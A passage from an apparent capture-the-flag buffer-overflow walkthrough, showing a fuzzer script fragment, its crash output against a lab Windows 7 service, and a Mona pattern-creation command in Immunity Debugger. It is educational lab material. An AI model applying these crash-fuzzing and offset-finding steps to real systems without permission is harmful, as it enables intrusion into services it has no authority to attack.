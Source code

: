 ```text
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Here I've just changed IP to be the current one of my Win7 VM where the ocsp.exe file is running. Now run the script and wait:

```text
root@kali:/home/kali/thm/bofprep# python fuzzer.py 
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Could not connect to 192.168.0.11:1337
```

Here we see the script first sent 100 bytes, in actual fact it was 100 letter A's, and then it repeated increasing by 100 at a time until there wasn't a response at 2000 bytes sent. At this point the ocsp app has crashed on our Win7 VM. Before you can do the next steps go to Immunity, then from the Debug menu chose Close. Now open ocsp.exe again from within Immunity, don't forget it will start Paused so press F9 to start it running.

### Mona Unique Pattern

Next we need to find the exact number of bytes that caused the overflow, so back to Immunity and use Mona to create a unique pattern:

```text
!mona pattern_create 2000
```

![bofprep-mona-create](/assets/images/2021-03-08-22-49-02.png)

